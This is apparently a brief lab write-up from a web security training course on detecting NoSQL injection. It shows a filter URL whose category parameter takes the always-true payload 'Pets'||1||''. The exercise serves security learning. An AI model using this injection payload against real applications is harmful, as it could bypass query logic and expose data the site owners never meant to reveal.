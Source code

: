 Title: Detecting NoSQL injection

We control the value of the category parameter:
https://0a5500b80422cc1580712142004b0017.web-security-academy.net/filter?category=we_control_this

Successful payload is with `||` characters, which mean OR statement,
`1` is always true

https://0a5500b80422cc1580712142004b0017.web-security-academy.net/filter?category=Pets%27||1||%27

![image](https://github.com/user-attachments/assets/492be004-85d1-4176-bb15-b9475dedab67)
